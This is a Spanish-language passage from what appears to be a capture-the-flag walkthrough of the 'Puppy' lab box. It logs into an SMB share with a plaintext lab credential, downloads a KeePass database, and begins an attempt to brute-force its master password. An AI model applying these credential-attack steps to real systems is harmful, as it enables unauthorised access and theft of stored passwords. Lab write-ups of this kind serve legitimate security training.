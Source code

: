 Podemos conectaremos al recurso compartido con `smbclient`

~~~ bash
smbclient //DC.puppy.htb/DEV -U 'levi.james%KingofAkron2025!'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Mar 23 03:07:57 2025
  ..                                  D        0  Sat Mar  8 11:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
  Projects                            D        0  Sat Mar  8 11:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025

		5080575 blocks of size 4096. 1626228 blocks available
smb: \> 
~~~

Vemos que existe un instalador (`.msi`), una carpeta `Projects`, y un archivo `.kdbx`. Descargaremos este último archivo para analizarlo desde nuestra máquina

~~~ bash
smb: \> get recovery.kdbx 
getting file \recovery.kdbx of size 2677 as recovery.kdbx (2.6 KiloBytes/sec) (average 2.6 KiloBytes/sec)
~~~

Nos han dejado una pista clara en el servidor `SMB`, el archivo en cuestión se trata de una base de datos para `KeePass`, concretamente para la versión `2` en adelante

~~~ bash
file recovery.kdbx 
recovery.kdbx: Keepass password database 2.x KDBX
~~~


## KeePass Database Password Brute Forcing

> KeePass es un administrador de contraseñas gratuito, de código abierto y liviano que permite almacenar todas tus contraseñas en una base de datos cifrada y segura.
{: .notice--info}

KeePass guarda las credenciales en un único archivo de base de datos, este contenido está cifrado con algoritmos modernos y robustos (como `AES-256`, `ChaCha20` y `Twofish` ). Únicamente necesitamos saber la contraseña de esta base de datos, también conocida como "clave maestra".

El formato KDBX 4.x (KeePass >=2.36) aún no es soportado por  herramientas como `keepass2john`, por lo que no hay forma conocida de extraer el hash y crackearlo.

~~~ bash
keepass2john recovery.kdbx

! recovery.kdbx : File version '40000' is currently not supported!
~~~

Existe una versión de `keepass2john` disponible en [`Github`](https://github.com/r3nt0n/keepass4brute) que soporta versiones posteriores a la `2.36`, la cual podrá construir un hash, aunque no en un formato que verdaderamente entiendan `john` o `hashcat`.
